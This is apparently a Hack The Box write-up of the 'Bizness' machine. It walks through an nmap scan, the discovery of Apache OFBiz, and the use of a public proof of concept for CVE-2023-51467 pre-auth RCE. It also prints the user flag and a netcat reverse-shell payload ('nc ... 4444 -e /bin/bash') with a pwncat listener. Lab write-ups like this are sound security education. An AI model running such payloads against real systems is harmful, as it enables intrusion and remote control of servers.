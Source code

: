 ```yaml
---
layout: post
title: Bizness HTB - Writeup
categories: [HTB]
tags: [htb,web,htb easy,linux]
image:
  path: /images/htb/easy/bizness/icon.png
---
```


Another easy linux box post CTF, let's get cracking!

**Machine created by:** [C4rm3l0](https://app.hackthebox.com/users/458049)

## Recon
I start off my recon by doing a portscan of the IP.

```
$ sudo nmap 10.129.255.102 --top-ports 2500
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-08 18:45 AEDT
Nmap scan report for 10.129.255.102
Host is up (0.31s latency).
Not shown: 2497 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

We can see 3 open ports, mainly of interest is HTTP.

I edit my `/etc/hosts` to make a new entry:

```
10.129.255.102 bizness.htb
```

After that I visit [bizness.htb](https://bizness.htb) and see this:

![Front Page](/images/htb/easy/bizness/frontpage.png)

Nothing of particular interest...

`dirstalk` gives 0 results, maybe there's subdomains?

No subdomains from scanning with FFuF, until I notice something in the page footer: `Powered by Apache OFBiz`

Searching for `Apache OFBiz CVE` yields [CVE-2023-50968 (SSRF)](https://nvd.nist.gov/vuln/detail/CVE-2023-50968) and [CVE-2023-51467 (Pre-Auth RCE)](https://nvd.nist.gov/vuln/detail/CVE-2023-51467).

Using a [PoC of the Pre-Auth RCE](https://github.com/JaneMandy/CVE-2023-51467-Exploit/releases/tag/Apache-Ofbiz), I set my URL to `https://bizness.htb/` then used `whoami` to find myself as `ofbiz`, and then using `cat /home/ofbiz/user.txt` to get the user flag.

User Flag: <mark>eff96303c752d6ac896258dd16aa422e</mark>

I setup a listener for a reverse shell:

```
$ pwncat-cs
[16:41:49] Welcome to pwncat 🐈!
(local) pwncat$ listen --host 10.10.***.*** 4444 -m linux
[16:41:53] new listener created for 10.10.***.***:4444
(local) pwncat$
```

Using the payload `nc 10.10.***.*** 4444 -e /bin/bash` with the `print ln to echo` mode triggered the reverse shell!

```
[19:05:59] 10.129.255.102:58820: normalizing shell path
[19:06:03] 10.129.255.102:58820: registered new host w/ db
[19:06:08] listener: 10.10.***.***:4444: linux session from 10.129.255.102:58820
           established
```





![Success](/images/htb/easy/bizness/submitted.png)

## Thanks for reading!
Feel free to give me feedback or follow me on [Twitter](https://twitter.com/sealldev).

You can also find my other contacts on the [whoami](../about) page.